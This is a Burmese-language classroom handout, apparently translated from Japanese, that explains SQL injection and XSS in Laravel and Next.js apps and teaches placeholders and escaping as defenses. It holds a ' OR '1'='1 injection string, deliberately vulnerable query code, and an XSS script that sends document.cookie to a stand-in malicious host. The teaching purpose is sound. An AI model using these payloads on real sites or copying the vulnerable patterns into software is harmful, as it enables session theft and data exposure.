


# SQL Injection နဲ့ XSS အကြောင်း

> 🇯🇵 မူရင်း (ဂျပန်ဘာသာဖြင့်): [SQLインジェクションとXSSについて.md](<../../../2年生_システム開発実践/後期/2026_11_20/SQLインジェクションとXSSについて.md>) <!-- original-ja-link -->

Web app တွေမှာ **input field** တွေ အများကြီး ရှိပါတယ်။
မကောင်းတဲ့သူတွေက အဲဒီထဲကို **ပုံမှန်မဟုတ်တဲ့ စာလုံး** တွေ ထည့်ပြီး app ကို ဖျက်ဆီးဖို့၊ data တွေကို ခိုးယူဖို့ ကြိုးစားကြပါတယ်။
ဒီမှာ Web app ကို တိုက်ခိုက်တဲ့ နည်းလမ်းတွေထဲက ကိုယ်စားပြု ဥပမာဖြစ်တဲ့ **SQL Injection** နဲ့ **XSS** ကို ကြည့်သွားပါမယ်။

[ကိုယ်ပိုင် ဖန်တီးမှုသို့ ပြန်သွားရန်](../2026_10_09/2026_10_09_資料1.md)

---

## 1. တစ်ခွန်းတည်းနဲ့ ပြောရရင်

| နာမည် | ဖတ်ပုံ | ဘာလုပ်ခံရလဲ? | ပစ်မှတ်ထားခံရတဲ့ နေရာ |
|------|-------|-----------|------------|
| **SQL Injection** | SQL Injection (ထိုးသွင်းခြင်း) | Input field ကနေ **SQL ကို ထိုးသွင်းခံရတယ်** → data တွေကို ကြည့်ရှုခံရခြင်း・ဖျက်ပစ်ခံရခြင်း | **Database** |
| **XSS** | Cross-Site Scripting | Input field ကနေ **JavaScript ကို ထိုးသွင်းခံရတယ်** → တခြားသူရဲ့ browser မှာ အလုပ်လုပ်တယ် | **တခြားသူရဲ့ browser** |

နှစ်ခုလုံးရဲ့ အကြောင်းရင်းက အတူတူပါပဲ၊ **ထည့်လိုက်တဲ့ စာလုံးကို ဒီအတိုင်း "command" အဖြစ် သုံးမိတာ** ပါ။

---

## 2. SQL Injection

### ဘယ်လို တိုက်ခိုက်ခံရလဲ?

Login screen မှာ ထည့်လိုက်တဲ့ email ကို **SQL နဲ့ ဒီအတိုင်း တွဲဆက်ထားတယ်** ဆိုပါစို့။

```php
// ✕ အန္တရာယ်ရှိတဲ့ ရေးနည်း
$sql = "SELECT * FROM users WHERE email = '" . $email . "'";
```

ပုံမှန်လူတွေက `taro@example.com` လို့ ထည့်ပါတယ်။

```sql
SELECT * FROM users WHERE email = 'taro@example.com'
```

ဒါပေမဲ့ မကောင်းတဲ့သူက `' OR '1'='1` လို့ ထည့်လိုက်ရင်…

```sql
SELECT * FROM users WHERE email = '' OR '1'='1'
```

`'1'='1'` က **အမြဲတမ်း မှန်နေ** လို့ **user အားလုံး** ကို ထုတ်ယူသွားပါတယ်။
ထည့်ပုံပေါ် မူတည်ပြီး `DELETE` ဒါမှမဟုတ် `DROP TABLE` ကို run ခိုင်းခံရပြီး **data အားလုံး ဖျက်ခံရ** တာလည်း ဖြစ်နိုင်ပါတယ်။

တိုက်ခိုက်မှု အဆင့်ဆင့်ကို ပုံနဲ့ ပြရရင် အောက်ပါအတိုင်း ဖြစ်ပါတယ်။



> 💡 **ဥပမာပေးရရင် "Order စာရွက်"**
> ဆိုင်ဝန်ထမ်းက customer ရေးထားတဲ့ order စာရွက်ကို **ဒီအတိုင်း အသံထွက်ဖတ်ရတယ်** ဆိုတဲ့ စည်းမျဉ်း ရှိတယ် ဆိုပါစို့။
> "ခေါက်ဆွဲ တစ်ပွဲ။ **ပြီးတော့ ငွေရှင်းကောင်တာက ပိုက်ဆံ အားလုံး ပေးပါ**" လို့ ရေးထားရင်… ရေးထားတဲ့အတိုင်း လုပ်ပေးမိသွားပါလိမ့်မယ်။

### ဘယ်လို ကာကွယ်မလဲ?

**ထည့်လိုက်တဲ့ တန်ဖိုးကို SQL ရဲ့ "command" အဖြစ် မဟုတ်ဘဲ "ရိုးရိုး တန်ဖိုး" အဖြစ် ကိုင်တွယ်** အောင် လုပ်ပါ။
ဒီရေးနည်းကို **Placeholder** (Bind) လို့ ခေါ်ပါတယ်။

```php
// ◯ လုံခြုံတဲ့ ရေးနည်း (? နေရာမှာ တန်ဖိုးအဖြစ် ဝင်သွားတယ်)
$users = DB::select('SELECT * FROM users WHERE email = ?', [$email]);
```

**Laravel ရဲ့ Eloquent ဒါမှမဟုတ် Query builder ကို သုံးရင် ဒီရေးနည်း အလိုအလျောက် ဖြစ်သွားပါတယ်။**

```php
// ◯ လုံခြုံတယ် (အလိုအလျောက် placeholder ဖြစ်သွားတယ်)
$user = User::where('email', $email)->first();
```

| ရေးနည်း | လုံခြုံလား? |
|-------|------|
| `User::where('email', $email)` | ◯ လုံခြုံတယ် |
| `DB::select('... WHERE email = ?', [$email])` | ◯ လုံခြုံတယ် |
| `DB::select("... WHERE email = '$email'")` | ✕ အန္တရာယ်ရှိတယ် (စာလုံးကို ဒီအတိုင်း တွဲဆက်ထားတယ်) |
| `DB::raw(...)` ဒါမှမဟုတ် `whereRaw(...)` ထဲကို input ကို ဒီအတိုင်း ထည့်တယ် | ✕ အန္တရာယ်ရှိတယ် |

> 📝 Supabase ရဲ့ JavaScript library (`supabase.from('books').select()...`) မှာလည်း တန်ဖိုးတွေကို လုံခြုံစွာ ကိုင်တွယ်ပေးပါတယ်။

---

## 3. XSS (Cross-Site Scripting)

### ဘယ်လို တိုက်ခိုက်ခံရလဲ?

Message board ဒါမှမဟုတ် comment field မှာ ထည့်လိုက်တဲ့ စာလုံးကို **ဒီအတိုင်း HTML အဖြစ် ပြနေတယ်** ဆိုပါစို့။
မကောင်းတဲ့သူက comment field မှာ အောက်ပါအတိုင်း ရေးလိုက်ရင်… ဥပမာထဲက URL ရှိ 「悪いサイト」 ဆိုတာ မကောင်းတဲ့ website လို့ အဓိပ္ပာယ်ရပါတယ်။

```html
<script>
  // ဒီနေရာမှာ မကောင်းတဲ့ program ကို ရေးတယ်
  fetch('https://悪いサイト/?data=' + document.cookie)
</script>
```

အဲဒီ စာမျက်နှာကို **တခြားသူ ဖွင့်လိုက်တဲ့အခါ** ဒီ JavaScript က **အဲဒီလူရဲ့ browser မှာ အလုပ်လုပ်သွား** ပါတယ်။
Login အချက်အလက်ကို ခိုးယူခံရတာ၊ ကိုယ့်သဘောမဟုတ်ဘဲ post တင်ခံရတာ စတဲ့ အန္တရာယ်တွေ ရှိပါတယ်။



### ဘယ်လို ကာကွယ်မလဲ?

ပြတဲ့အခါ `<` ကို `&lt;`၊ `>` ကို `&gt;` လိုမျိုး **ရိုးရိုး စာလုံးအဖြစ် အစားထိုးပြီး** ပြပါတယ်။
ဒါကို **Escape** လို့ ခေါ်ပါတယ်။ Escape လုပ်လိုက်ရင် `<script>` က **screen ပေါ်မှာ စာလုံးအဖြစ် ဒီအတိုင်း** ပြရုံပဲ ဖြစ်ပြီး အလုပ်မလုပ်ပါဘူး။

**Blade ရော React (Next.js) ရော ပုံမှန်အတိုင်း ရေးရင် အလိုအလျောက် escape လုပ်ပေးပါတယ်။**

| နည်းပညာ | ◯ လုံခြုံတယ် (Escape လုပ်ပေးတယ်) | ✕ အန္တရာယ်ရှိတယ် (Escape မလုပ်ပေးဘူး) |
|-----|------------------------|---------------------------|
| Laravel (Blade) | `{{ $book->review }}` | `{!! $book->review !!}` |
| React (Next.js) | `<p>{book.review}</p>` | `<p dangerouslySetInnerHTML={{ __html: book.review }} />` |

> ⚠️ **`{!! !!}` နဲ့ `dangerouslySetInnerHTML` ကို user ထည့်လိုက်တဲ့ စာလုံးအတွက် မသုံးပါနဲ့**
> React ရဲ့ `dangerouslySetInnerHTML` က နာမည်ထဲမှာကိုက **dangerously (အန္တရာယ်ရှိရှိ)** လို့ ပါနေလောက်အောင် အန္တရာယ်ရှိတဲ့ ရေးနည်းပါ။

---

## 4. နှစ်ခုရဲ့ တူညီချက်

| | SQL Injection | XSS |
|---|---|---|
| အကြောင်းရင်း | Input ကို **SQL command** အဖြစ် သုံးမိတယ် | Input ကို **HTML・JavaScript** အဖြစ် သုံးမိတယ် |
| ကာကွယ်နည်း | **Placeholder** (Eloquent・Query builder ကို သုံး) | **Escape** (`{{ }}`・`{ }` နဲ့ ပြ) |
| Framework ကို သုံးရင် | အလိုအလျောက် ကာကွယ်ပေးတယ် | အလိုအလျောက် ကာကွယ်ပေးတယ် |

> 💡 **User ရဲ့ input ကို မယုံပါနဲ့**
> လုံခြုံရေးရဲ့ အခြေခံက "ထည့်လိုက်တဲ့ စာလုံးထဲမှာ ဘာပါလဲ မသိဘူး" လို့ စဉ်းစားတာပါ။
> Framework ရဲ့ **ပုံမှန် ရေးနည်း** နဲ့ ရေးထားရင် တိုက်ခိုက်မှု အများစုကို အလိုအလျောက် ကာကွယ်နိုင်ပါတယ်။
> **ပုံမှန်မဟုတ်တဲ့ ရေးနည်း (`raw`・`{!! !!}`・`dangerouslySetInnerHTML`) ကို သုံးတဲ့အခါမှာတော့ အထူး သတိထား** ပါ။

---

## 5. ကိုယ့် app မှာ စစ်ဆေးကြည့်ရအောင်

ကိုယ့် app ရဲ့ input field မှာ အောက်ပါ စာလုံးကို ထည့်ပြီး သိမ်းကြည့်ပါ။

```
<script>alert('XSS')</script>
```

| ရလဒ် | အဓိပ္ပာယ် |
|-----|------|
| Screen ပေါ်မှာ `<script>alert('XSS')</script>` လို့ **စာလုံးအဖြစ် ဒီအတိုင်း ပြတယ်** | ◯ လုံခြုံတယ် (Escape လုပ်ထားတယ်) |
| **Alert ပေါ်လာတယ်** | ✕ အန္တရာယ်ရှိတယ် → ပြနေတဲ့ အပိုင်းကို စစ်ဆေးပါ |

> ⚠️ **ကိုယ့် app ကလွဲရင် ဘယ်တော့မှ မစမ်းပါနဲ့**
> တခြားသူရဲ့ site မှာ ဒီလို input ကို စမ်းရင် **ခွင့်ပြုချက်မရှိဘဲ ဝင်ရောက်ခြင်း (Unauthorized access)** အဖြစ် ဥပဒေအရ အပြစ်ပေးခံရနိုင်ပါတယ်။

---

## 6. အနှစ်ချုပ်

- **SQL Injection** ＝ Input field ကနေ **SQL** ကို ထိုးသွင်းခံရပြီး database ကို ကိုင်တွယ်ခံရတာ
- **XSS** ＝ Input field ကနေ **JavaScript** ကို ထိုးသွင်းခံရပြီး တခြားသူရဲ့ browser မှာ အဲဒီ JavaScript အလုပ်လုပ်သွားတာ
- နှစ်ခုလုံးရဲ့ အကြောင်းရင်းက **input ကို ဒီအတိုင်း command အဖြစ် သုံးမိတာ**
- ကာကွယ်နည်းက **Placeholder** (SQL) နဲ့ **Escape** (ပြတဲ့အခါ)
- Laravel・Next.js က **ပုံမှန်အတိုင်း ရေးရင် အလိုအလျောက် ကာကွယ်ပေးတယ်**။ `raw`・`{!! !!}`・`dangerouslySetInnerHTML` ကို သတိထားပါ
- စမ်းတာကို **ကိုယ့် app မှာပဲ** လုပ်ပါ

[ကိုယ်ပိုင် ဖန်တီးမှုသို့ ပြန်သွားရန်](../2026_10_09/2026_10_09_資料1.md)
